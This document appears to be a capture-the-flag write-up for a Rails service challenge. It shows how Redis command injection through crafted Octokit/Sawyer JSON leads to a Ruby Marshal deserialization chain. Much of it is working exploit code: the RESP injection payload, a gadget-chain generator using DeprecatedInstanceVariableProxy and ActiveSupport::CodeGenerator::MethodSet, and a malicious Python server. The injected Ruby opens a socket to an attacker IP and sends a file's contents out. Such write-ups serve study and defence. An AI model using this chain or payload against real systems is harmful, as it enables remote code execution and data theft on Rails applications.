 We are given the source to a simple service which displays the SHA hash and file list for a github project. We can also provide an `api_endpoint` and it will retrieve from our host instead.

the `index` endpoint invokes `octokit` to retrieve the SHA and tree of the target repo. While searching the net to understand how `Octokit` works, I found a [gitlab bug](https://gitlab.com/gitlab-org/gitlab/-/issues/371098) where the importer could be hijacked via improper passing of a `SawyerResource` object to a caching function. The bug in this challenge wound up being almost identical, but using the built in rails redis cacher rather than being in gitlab's methods. 

The redis command serializer assumes that it will receive a norrmal flat bytelike or string object, and uses `to_s` to get the value and `bytesize` to compute the length.  `SawyerResource` objects are automagic structs produced directly from our input JSON, so we can set those to mismatch when constructing the RESP command string (it doesn't check that it's the builtin `bytesize` method and not just a field on the input). This lets us inject redis commands directly by using something like:

```python
exploit = {"sha": {"to_s": { "to_s": { "to_s": { "b":{
           "to_s":f"AA\r\n$2\r\nPX\r\n$2\r\n10\r\n*5\r\n$3\r\nset\r\n${len(target)}\r\n{target}\r\n${len(payload)}\r\n{payload}\r\n$2\r\nPX\r\n$6\r\n300000\r\n",
            "bytesize":2
            }}}}},"tree": [{"path":"pwnedbyPFS"}]}```

Here, I'm invoking a `set` command. 

The redis connector is invoked with `raw: True` for both directly controlled fields, but there's a third value stored for every connection which doesn't have that

```ruby
 def session
    Rails.cache.fetch(session_id, expires_in: 5.minutes) do
      { created_at: DateTime.now }
    end.to_json
  end
```

Values fetched without `raw: True` will be unmarshalled, leading to a classic ruby unmarshalling exploit. We can use redis injection to set our `session_id` in the redis server to controlled data, then trigger it to be unmarshalled

I wasted a _ton_ of time once I got to this point, but I  didn't really know what I was doing. I'll try to explain ruby unmarshalling best I can, but there are [numerous](https://bishopfox.com/blog/ruby-vulnerabilities-exploits) [other](https://www.elttam.com/blog/ruby-deserialization/) [resources](https://devcraft.io/2022/04/04/universal-deserialisation-gadget-for-ruby-2-x-3-x.html) [worth](https://github.com/haileys/old-website/blob/master/posts/rails-3.2.10-remote-code-execution.md) [reading](https://github.com/httpvoid/writeups/blob/main/Ruby-deserialization-gadget-on-rails.md).

Ruby unmarshalling exploits require a "gadget chain" (somewhat analogous to ROP chaining, i.e., reusing existing code). When unmarshalling an object, ruby will invoke the `marshal_load` and `_load`. There are nuanced differences between the two, for more info check [this link](https://blog.appsignal.com/2019/03/26/object-marshalling-in-ruby.html). A typical ruby gadget chain will start with an object which has a `marshal_load` implementation, although from my research, increasingly many exploit chains utilize more complex gadgets or indirect effects rather than directly using `marshal_load`. Whatever the initial mechanism, the general technique is to utilize ruby class which, when unmarshalled, allows you to invoke other useful functions (e.g., by setting the value of a member variable which will be invoked). Ultimately, you want to invoke a sink function which gets arbitrary ruby execution, or other behavior (e.g. shell execution) as determined by the constraints of your expoit.


I was able to replicate a few different gadget options I found online to kick off the chain. The easiest wound up being the `ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy` gadget. This gadget lets us invoke any method (without arguments) on any class. I will briefly describe the `DeprecatedInstanceVariableProxy` gadget, but definately read the source and check out other writeups for more information.

The `DeprecatedInstanceVariableProxy` implements `method_missing` which will be invoked when any unfound method is called on the class:

```ruby
def method_missing(called, *args, &block)
    @deprecator.warn(@message, caller_locations)
    target.__send__(called, *args, &block)
end
```

`Target` is implemented as:
```ruby
class DeprecatedInstanceVariableProxy < DeprecationProxy
    def initialize(instance, method, var = "@#{method}", deprecator = ActiveSupport::Deprecation.instance)
        @instance = instance
        @method = method
        @var = var
        @deprecator = deprecator
    end

    private
    def target
        @instance.__send__(@method)
    end

    def warn(callstack, called, args)
          @deprecator.warn("#{@var} is deprecated! Call #{@method}.#{called} instead of #{@var}.#{called}. Args: #{args.inspect}", callstack)
        end
    end
```

By setting `@method` and `@instance`, we can invoke any function on any class. We instantiate the deprecator as follows:

```ruby
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.allocate
depr.instance_variable_set(:@instance, CLASS)
depr.instance_variable_set(:@method, :METHOD)
depr.instance_variable_set(:@silenced, true)
depr.instance_variable_set(:@var, "@METHOD")
d2 = ActiveSupport::Deprecation.new
d2.instance_variable_set(:@silenced, true)
depr.instance_variable_set(:@deprecator, d2)
```
Replacing `CLASS` with an instance of our target class, and `METHOD` with our target method, we can invoke `CLASS.METHOD`. Note that the target method must have no arguments.

At this point, I had to go digging, as all of the sink function I've seen people mention have been patched (e.g., `ActiveModel::AttributeMethods::ClassMethods::CodeGenerator`).

I discovered `ActiveSupport::CodeGenerator::MethodSet`, which has a function `apply` which calls `module_eval` on an instance variable (very similar to how the DIVP gadget has been used before)

```ruby
def apply(owner, path, line)
  unless @sources.empty?
    @cache.module_eval("# frozen_string_literal: true\n" + @sources.join(";"), path, line)
  end
  @methods.each do |name, as|
    owner.define_method(name, @cache.instance_method(as))
  end
end
```

We can't invoke the `apply` method directly, but examining the surrounding code we can instantiate an `ActiveSupport::CodeGenerator` and it's child `MethodSet` and invoke `execute` on the `CodeGenerator`:

```ruby
def execute
  @namespaces.each_value do |method_set|
    method_set.apply(@owner, @path, @line - 1)
  end
end
```

Here's my code to generate the payload:

```ruby
class ActiveSupport
    class Deprecation
        class DeprecatedInstanceVariableProxy
            def initialize(instance, method)
                @instance = instance
                @method = method
            end
       end
    end
    class CodeGenerator
        class MethodSet
            METHOD_CACHES = Hash.new 
            def initialize(instance, method)
                @instance = instance
                @method = method
            end
        end
    end
end


methodset = ActiveSupport::CodeGenerator::MethodSet.allocate
methodset.instance_variable_set(:@sources, ["f=TCPSocket.open(\"IP_ADDRESS_HERE\",1234)", "t=File.read(\"/flag.txt\")", "f.puts(t)"]) #;
methodset.instance_variable_set(:@cache, Module.class)

codegen   = ActiveSupport::CodeGenerator.allocate
codegen.instance_variable_set(:@owner, "OWNER")
codegen.instance_variable_set(:@path, "PATH")
codegen.instance_variable_set(:@line, 1)
codegen.instance_variable_set(:@namespaces, {"1"=>methodset})

depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.allocate
depr.instance_variable_set(:@instance, codegen)
depr.instance_variable_set(:@method, :execute)
depr.instance_variable_set(:@silenced, true)
depr.instance_variable_set(:@var, "@execute")
d2 = ActiveSupport::Deprecation.new
d2.instance_variable_set(:@silenced, true)
depr.instance_variable_set(:@deprecator, d2)

Marshal.dump(depr)
```

I host it with python and invoke the server twice with curl. The first invokation sets the session variable in the redis cache, and the second causes it to be unmarshalled.

```python
#!/usr/bin/env python3

from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import urlparse
import json
payload = "put_payload_here"
target = "put_sessionID_here"
exploit = {"sha": {"to_s": { "to_s": { "to_s": { "b":{
           "to_s":f"AA\r\n$2\r\nPX\r\n$2\r\n10\r\n*5\r\n$3\r\nset\r\n${len(target)}\r\n{target}\r\n${len(payload)}\r\n{payload}\r\n$2\r\nPX\r\n$6\r\n300000\r\n",
            "bytesize":2
            }}}}},"tree": [{"path":"pwnedbyPFS"}]}
pwn = json.dumps(exploit).encode("utf-8")


class RequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        parsed_path = urlparse(self.path)
        self.send_response(200)
        self.send_header('Content-type', 'application/vnd.github.v3+json')
        self.end_headers()
        
        self.wfile.write(pwn)
        
        return
    
if __name__ == '__main__':
    server = HTTPServer(('0.0.0.0', 80), RequestHandler)
    server.serve_forever()
```

`curl -vv -c -b "./cookie" --path-as-is http://git-ls-api.chal.perfect.blue/a/B?api_endpoint=http://your_endpoint.net`